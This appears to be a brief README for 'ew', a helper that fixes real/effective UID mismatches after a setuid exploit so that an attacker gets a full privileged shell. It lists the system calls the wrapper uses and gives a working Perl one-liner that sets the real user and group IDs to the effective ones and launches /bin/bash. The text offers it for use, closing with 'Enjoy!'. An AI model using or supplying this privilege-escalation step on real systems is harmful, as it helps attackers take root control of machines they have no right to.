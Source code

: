 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if perl is available would be:
	perl -U -e '$<=$(=$>;system("/bin/bash");'

Enjoy!

